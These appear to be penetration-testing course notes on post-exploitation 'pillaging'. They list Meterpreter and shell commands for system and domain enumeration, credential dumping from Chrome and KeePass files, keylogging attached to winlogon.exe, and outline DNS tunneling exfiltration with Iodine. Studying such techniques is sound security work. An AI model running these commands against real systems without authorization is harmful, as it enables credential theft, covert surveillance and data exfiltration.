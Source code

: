 

---

* **Pillaging Overview**
  - Goal: Gather as much data as possible—system info, apps, services, networks, docs, messaging.
  - Focus: System role (workstation/server), users, network, installed apps, credentials.

---

* **Basic Information Gathering**  
  - `sysinfo`: Basic system info (works on Windows/Linux).
  - `getuid`: Check current user on the target machine.

---

* **Identify Machine Role**
  - **Questions to ask**:
    - Workstation or Server?
    - What department? (e.g., R&D, Marketing, etc.)
    - Type of server? (e.g., Mail, Web, RADIUS)
  - **Commands**:
    - `enum_services`: Get all services, user, startup type, binary path.
    - **Windows**: `wmic service get Caption, StartName, State, pathname`
    - **Linux**: `service --status-all`
    - `net start`: List running services (DNS, IIS indicate server roles).

---

* **Processes and Services**
  - `ps`: List running processes.
  - `net view /domain`: Check if the machine is part of a domain.
  - `net group “Domain Controllers” /domain`: List domain controllers.
  
---

* **User & Group Enumeration**
  - **Windows**: `net user`, `net user /domain`
  - **Linux**: `cat /etc/passwd`
  - **Groups**: `net localgroup [group_name]`
  
---

* **Shared Resources**
  - `net share`: List shared resources.
  - `enum_shares`: Meterpreter equivalent.

---

* **Credential Dumping**
  - Metasploit Modules: `post/windows/gather/credentials`, `post/multi/gather/`
  - **Specific Examples**:
    - `enum_chrome`: Gather Chrome credentials.
    - External tools: Nirsoft’s Web Browser Pass View for browser credentials.
  
---

* **File Harvesting**
  - **Search Files**:
    - `search -d C:\\Users\\els\\ -f *.kdbx`: Search for KeePass databases.
  - **Download**: `download [file]` to retrieve files locally (e.g., IM logs, FTP client files).
  
---
* **Keystroke Logging**
  - **Keylogger**:
    - `keyscan_start`: Start keylogger.
    - `keyscan_dump`: Dump keystrokes.
    - `keyscan_stop`: Stop the keylogger.
  - **Attach to Process**:
    - For screen unlock credentials: Attach to `winlogon.exe`.
    - For app usage: Attach to `explorer.exe`.

---

* **Automation Tools**
  - **scraper**: Harvests system information including network shares, registry hives, and password hashes.
  - **winenum**: Retrieves various system information, such as environment variables, network interfaces, routing, user accounts, and more.

---
* **DNS Tunneling for Exfiltration**

Malicious actors often aim to exfiltrate sensitive data using protocols that aren't typically monitored. One common method is **DNS Tunneling**, where DNS traffic is used to exfiltrate data due to its low visibility in many organizations.

* **DNS Tunneling Process**
  - **Client**: Initiates a connection to the attacker's DNS tunnel server through the target organization's DNS server.
  - **Data Encoding**: Traffic is encoded as DNS queries (usually TXT records).
  - **Server**: The attacker-controlled DNS server decodes the traffic.

* **Useful Tools**
  - **Iodine**: A tool for DNS tunneling.
    - Download link: [Iodine tool](https://code.kryo.se/iodine/)

* **Iodine Usage**
  - Useful for bypassing internet restrictions, such as authenticated proxies or captive portals.
  - Can exfiltrate data through DNS queries, bypassing firewalls and proxy restrictions.

* **Requirements for DNS Tunneling with Iodine**
  1. Control over a domain name and its DNS configuration.
  2. An IP address acting as the authoritative Name Server, with SSH access to that server.

* **Steps to Implement DNS Tunneling with Iodine**
  1. Set up a domain name (e.g., register via GoDaddy).
  2. Configure an IP address (hosted on a VPS) to act as the DNS server for the domain.
  3. Establish the DNS tunnel:
     - Client component connects to the server via the domain's DNS.
     - All traffic is tunneled through an SSH SOCKS proxy over DNS.

